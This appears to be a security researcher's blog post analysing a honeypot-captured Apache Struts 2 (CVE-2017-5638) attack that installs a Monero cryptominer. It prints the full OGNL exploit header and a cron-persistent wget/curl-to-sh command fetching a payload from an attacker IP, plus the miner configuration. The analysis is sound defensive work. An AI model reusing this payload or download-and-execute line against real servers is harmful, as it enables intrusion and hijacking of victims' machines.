





Remember Equifax hack and data of millions being stolen? Then you should also remember the Apache Struts 2 vulnerability, used during that attack. This sounds like an old news, but it seems to be exploited even to the day of this post. Someone is attacking web servers successfully and installs cryptominers, adding victims to a Monero pool.

## Stage #1. Apache Struts 2 vulnerability (CVE-2017-5638).

For those who doesn't know (or need a refresher) what is `CVE-2017-5638`; this is a vulnerability found in Apache Struts leading to RCE (remote code execution). Attacker has to send a crafted request to upload a file to the vulnerable server, injecting malicious code in the `Content-Type` header. 

For more details, check [this nice article from TrendMicro](https://blog.trendmicro.com/trendlabs-security-intelligence/cve-2017-5638-apache-struts-vulnerability-remote-code-execution/ "Apache Struts 2").



In my case, one of the honeypots mimicking Apache Tomcat got an interesting HTTP request (see below).

```python
GET /images/upload HTTP/1.1
Host: <REDACTED>
Connection: keep-alive
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: Mozilla/5.0
Content-Type: %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='echo "*/20 * * * * wget -O - -q hXXp://5.188.87[.]12/icons/logo.jpg|sh\n*/19 * * * * curl hXXp://5.188.87[.]12/icons/logo.jpg|sh" | crontab -;wget -O - -q hXXp://5.188.87[.]12/icons/logo.jpg|sh').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
X-Forwarded-For: 5.188.10[.]251
```

The extracted bash command looks like this:

```bash
echo "*/20 * * * * wget -O - -q hXXp://5.188.87[.]12/icons/logo.jpg|sh\n*/19 * * * * curl hXXp://5.188.87[.]12/icons/logo.jpg|sh" \
| crontab -;wget -O - -q hXXp://5.188.87[.]12/icons/logo.jpg|sh
```

As you already noticed, the stage 1 of this attack is following next steps:

- Checks what type of OS is running on exploited server (Linux or Windows);
    - _Looks like, attackers are trying their against Windows boxes, in case Linux tools are installed_;
- Creates 2 cronjobs, which are running every 19th and 20th minutes;
    - _This is malware's persistence mechanism;_
    - _Every time it downloads `logo.jpg` file and executes it as shell script;_
    - _I think attackers messed up here and instead of using 2 different IPs, in case one goes down, used same one (5.188.87[.]12) everywhere;_
- Downloads `logo.jpg` file using `wget` command and executes the file;


## Stage #2. The pseudo-JPG file.

Stage 2 of this attack is execution of `logo.jpg` as a shell script. It is meant to look for other cryptominers running on the system and terminating those processes (_removing old versions or eliminating competitors?_).

[ {:.post_image} ](../img/miner_shell_script_1.png)

Once other miners have been stopped, there is kind of a MUTEX check implemented. Malware checks if none of specified files are used by any process on the system; then downloads Monero miner and it's configuration file `kworker.conf`.

[ {:.post_image} ](../img/miner_shell_script_2.png)



There are 2 available versions of cryptominer and on of them is dropped if `AES-NI` instructions set is not supported by the processor:

```bash
cat /proc/cpuinfo|grep aes>/dev/null
```

## Stage #3. Cryptominer.

As mentioned above, malicious shell script drops one of the two available versions of `cpuminer 2.3.3`, one for `AES-NI` able processors and for those without support. The version and build time can be found by running `strings` tool against the binaries.

[ {:.post_image} ](../img/cpuminer_strings.png)

Below are the checksums of the binaries, which were already uploaded on VirusTotal, long time before the attack.

```bash
MD5:    c7500149e5ae8f34ffd482057023ab41  atd_1
MD5:    54b0f140da40e5713377f4d4a8f143ad  atd_2
SHA256: 9359f7e7b1dd0f4ce4a2c52fe611c981a3dd7a17f935862e3ce9acb5f2df8ced  atd_1
SHA256: f4864b3793c93de50b953e9751dc22e03fa0333ae6856d8d153be9018da6d911  atd_2
```

Configuration file is saved in `wcubpiztlk.conf` and contains information like pool address, user name and the algorithm used.

```json
{
    "url" : "stratum+tcp://158.69.25[.]77:80",
    "user" : "49mQCzecsC6TS1sNBj5XQX4dNG8MESvLGLPHYJLKohVCQivAB5jJw2xHokTpjtSfE3D8m2U3JjDGEWJMYLrN216CM3dRpBt",
    "pass" : "x",
    "algo" : "cryptonight",
    "quiet" : true
}
```

## Thoughts. Conclusion.

Based on available information on the Internet, 158.69.25[.]77 points to `ca[.]minexmr[.]com`. This particular server is situated in Canada. Knowing that reporting server should be as close to the miners (_in our case victims_), I assume that the majority of targets are planned to be in US and Canada, because using an European server for a victim based in US could increase the _loses_ (a.k.a expired shares).

[ {:.post_image} ](../img/miner_servers.png)

[ {:.post_image} ](../img/miner_profit.png)

Even if CVE-2017-5638 was fixed relatively fast, attackers had success exploiting this for another year or so. This earned them 314.485 XMR (~ $15.286) *at least*.

As a conclusion, I would say PATCH! PATCH! and PATCH! This is the easiest and *cheapest* way to stay mitigate a a big part of security risks.

